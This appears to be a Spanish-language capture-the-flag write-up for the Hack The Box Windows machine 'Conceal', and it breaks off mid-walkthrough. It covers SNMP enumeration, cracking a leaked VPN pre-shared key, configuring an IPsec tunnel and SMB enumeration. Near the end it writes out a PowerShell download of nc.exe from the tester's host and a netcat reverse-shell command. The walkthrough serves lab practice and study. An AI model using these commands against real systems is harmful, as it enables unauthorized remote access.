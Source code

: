 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Conceal            |
| Os                     | Windows            |
| Difficulty             | Hard               |
| Points                 | 0                  |
| IP                     | 10.10.10.116       |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

### [](#header-3)NMAP   

Podemos atacar buscando por protocolos TCP, UDP o SCTP. Sobre este orden es recomendado por que va de acuerdo a la probabilidad de presentarse con uno similar.

El primer escaneo rápido sera sobre TCP con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos. El primer comando que intentaremos usar es:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.116
```

Por TCP no fue posible encontrar ningun puerto abierto, intentaremos hacerlo ahora por UDP de la manera siguiente:

```s
sudo nmap -sU -p- --open --min-rate 10000 -vvv -n -Pn 10.10.11.116 -oG allUDPPorts
```

Para filtrar su contenido basta con agregar:

```s
cat allUDPPorts | grep -oP '\d{1,5}/open/udp'
```

El siguiente escaneo sera de la manera siguiente:

```s
sudo nmap -sCVU -p500 10.10.10.116 -oN udpScan
```

La respuesta al escaneo anterior nos indica que el puerto 161 y 500 estan abiertos, lo que significa que SNMP esta en servicio por el 161 y por el 500 tratare de detectar el servicio y version.

Empezaremos la enumeracion de informacion ahora por SNMP que de acuerdo a hacktrics podemos usar el comando

```s
onesixtyone 10.10.10.116
```

Tenemos ahora el community string que es public, tambien podemos validar mediante wordlist de SecList.

Ahora por snmp podemos intentar enumerar con snmpwalk

![onesixtyone](/assets/images/Conceal/onesixtyone.png)

Para enumerar mas servicios de SNMP con nmap podemos buscar los scripts con

```s
locate .nse | grep snmp
```

Escogemos algun script y lo usamos con

```s
sudo nmap --script snmp-netstat -p161 -sU 10.10.10.116
sudo nmap --script snmp-processes -p161 -sU 10.10.10.116
```

Recordemos que SNMP suele mostrar cosas privilegiadas o hasta contrasenas de procesos que estan corriendo.

```s
snmpwalk -v2c -c public 10.10.10.116 
```
En la cabecera de la respuesta de este comando pudimos ver una contrasena que intentaremos crackear sencillamente en la pagina <a href="https://crackstation.net/">crackstation </a>

Una vez que contamos con la contrasena de la VPN, intentaremos usarla primero instalando strongswan y centraremos la atencion a nuestros archivos de configuracion para ipsec en /etc/ipsec.secrets y /etc/ipsec.conf que son los archivos de configuracion que nos crea strongswan. Ahora viendo como funciona este tipo de conexiones tendremos que abrir el archivo secrets y poner la siguiente linea

```s
%any : PSK "Dudecake1!"
```

Ahora continuaremos la enumeracion con ike-scan de la manera siguiente:

```s
ike-scan 10.10.10.116 -M
```

La salida la almacenaremos ya que nos sera util para poder conectarnos, modificaremos entonces el archivo /etc/ipsec.conf con las lineas siguientes

```s
conn conceal
  keyexchange=ikev1
  type=transport
  left=10.10.14.12
  right=10.10.10.116
  auto=add #ondemand start ignore
  authby=secret
  ike=3des-sha1-modp1024
  esp=3des-sha1
  rightsubnet=10.10.10.116[tcp]
```

Ahora para intentar conectarnos guardamos la configuracion y damos un 

```s
ipsec restart
ipsec up conceal 
```

En esta parte tuve errores, pero lo solucione instalando libstrongswan-extra-plugins.

Ahora podemos hacer un escaneo a travez de la conexion que tenemos con

```s
sudo nmap -sCVT -p21,80,135,139,445,49664,49665,49670 10.10.10.116 -oN targeted
```

![nmap4](/assets/images/Conceal/nmap4.png)

Como tenemos el puerto 445 abierto, lo siguiente que podemos enumerarlo con

```s
crackmapexec smb 10.10.10.116
```

![crackmapexec](/assets/images/Conceal/crackmapexec.png)

Ahora veremos si tenemos ejecusion con powershell

powershell invoke-WebRequest -UseBasicParsing 10.10.14.12/nc.exe -OutFile C:\nc.exe

C:\nc.exe 10.10.14.12 4444 -e cmd

Ahora para enumerar mas vulnerabilidades lo que haremos es usar la herramienta<a href="https://github.com/rasta-mouse/Watson.git">watson </a>

Tambien hay otra herramienta llamada juicypotattoe

